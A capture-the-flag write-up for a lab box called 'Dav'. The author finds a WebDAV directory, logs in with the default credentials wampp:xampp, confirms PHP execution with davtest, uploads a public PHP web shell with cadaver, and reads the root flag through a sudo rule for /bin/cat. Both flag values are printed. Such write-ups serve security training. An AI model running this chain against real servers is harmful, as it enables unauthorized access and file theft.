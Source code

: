 # Dav

Simple and easy. However, included a few new tools and things so worth writing down.

First up, a scan revealed a single port open: the port 80 website. Going there revealed the apache landing page.

A dirb revealed just one additional thing (aside from index and server-status): `/webdav`. Going to webdav pushed up a basic auth password prompt.

I did a bit of reading, finding this article which was useful: https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/. However, it all required credentials to work.

I checked the source of the home page, did more intensive scans and dirbs, but couldn't find anything. Since bruteforcing without a username is never the right move, that just left default credentials.

I tried a few sets I googled, and the second set worked: `wampp:xampp`

Next, davtest: `davtest -url http://10.10.119.10/webdav -auth wampp:xampp`

This revealed: 

```
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.119.10/webdav
********************************************************
NOTE    Random string for this session: t0ADTE
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.119.10/webdav/DavTestDir_t0ADTE
********************************************************
 Sending test files
PUT     cfm     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cfm
PUT     txt     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
PUT     html    SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
PUT     jhtml   SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jhtml
PUT     asp     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.asp
PUT     pl      SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.pl
PUT     shtml   SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.shtml
PUT     php     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
PUT     cgi     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cgi
PUT     aspx    SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.aspx
PUT     jsp     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jsp
********************************************************
 Checking for test file execution
EXEC    cfm     FAIL
EXEC    txt     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
EXEC    html    SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
EXEC    jhtml   FAIL
EXEC    asp     FAIL
EXEC    pl      FAIL
EXEC    shtml   FAIL
EXEC    php     SUCCEED:        http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
EXEC    cgi     FAIL
EXEC    aspx    FAIL
EXEC    jsp     FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.119.10/webdav/DavTestDir_t0ADTE
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cfm
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jhtml
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.asp
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.pl
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.shtml
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.cgi
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.aspx
PUT File: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.jsp
Executes: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.txt
Executes: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.html
Executes: http://10.10.119.10/webdav/DavTestDir_t0ADTE/davtest_t0ADTE.php
```

So, I can upload files and I can upload PHP files, which are fully executable. I downloaded a copy of https://github.com/flozz/p0wny-shell/blob/master/shell.php and got to work.

Surprisingly, `davtest` despite having an `uploadfile` arg and showing in the above test it could upload, wasn't working. I tried this: `davtest -url http://10.10.119.10/webdav -auth wampp:xampp -uploadfile shell.php -uploadloc http://10.10.119.10/webdav/shell.php` and it failed. After I rooted the machine later (while writing this) I did more investigation: the latter path is relative to the dir so this would have worked: `davtest -url http://10.10.119.10/webdav -auth wampp:xampp -uploadfile shell.php -uploadloc shell.php`. Obvious really.

Instead, I used `cadaver http://10.10.119.10/webdav` which provides an FTP like experience. I used that to upload the shell via `put shell.php`. Navigated to `http://10.10.119.10/webdav/shell.php` and it loaded up nicely.

At this point, easy. The user.txt flag was in /home/merlin with value: `449b40fe93f78a938523b7e4dcd66d2a`. A `sudo -l` revealed the user could run `/bin/cat` with nopasswd as root, so `sudo /bin/cat /root/root.txt` got the root flag: `101101ddc16b0cdf65ba0b8a7af7afa5`. Easy peasy.